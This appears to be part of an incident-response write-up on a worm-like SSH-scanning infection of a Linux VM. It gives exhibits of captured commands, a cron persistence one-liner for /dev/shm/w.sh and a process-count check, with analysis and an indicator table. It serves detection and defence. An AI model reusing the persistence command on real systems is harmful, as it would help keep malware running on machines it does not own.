 ### Exhibit C

```bash
bash -c '
PATH=$PATH:/usr/bin:/usr/local/bin
CRON="$(crontab -l 2>/dev/null || true)"
if ! echo "$CRON" | grep -F '/dev/shm/w.sh "astats" "netai" "kstats" "ssh 1 az"' >/dev/null 2>&1; then
  (echo "$CRON"; echo '@reboot  /dev/shm/w.sh "astats" "netai" "kstats" "ssh 1 az"'; echo '0 * * * * cd "/dev/shm" && ./w.sh "astats" "netai" "kstats" "ssh 1 az"') | crontab -
fi
'
```

**Analysis:**

* Confirms **persistence setup** via cron.
* Ensures `w.sh` executes hourly and at reboot.
* Typical self-replication logic used in worms.

### Exhibit D

```bash
bash -c "ps aux | grep astats | grep -v grep | wc -l"
```

**Analysis:**

* Counts running `astats` processes.
* Likely used by malware to prevent duplicate instances.

> ![Screenshot 3 – DeviceFileEvents Evidence](path/to/screenshot3.png)

---

## 🧬 Malicious Behavior Analysis

| Indicator                                  | Description                                         | Severity     |
| ------------------------------------------ | --------------------------------------------------- | ------------ |
| `/dev/shm/astats -scan ssh`                | SSH port scanning tool or worm module               | **Critical** |
| `/dev/shm/w.sh`                            | Malicious script staging/persistence                | **High**     |
| `crontab -`                                | Persistence mechanism                               | **High**     |
| `/usr/bin/apt-key --readonly verify`       | Possibly used by system processes; context required | **Medium**   |
| Repeated network events to AWS Ireland IPs | External scanning / lateral spread                  | **Critical** |

**Behavior Summary:**

* Worm-like SSH scanning.
* Cron-based persistence.
* In-memory execution (avoids disk logs).
* Likely spreading to other VMs over the same network.

---
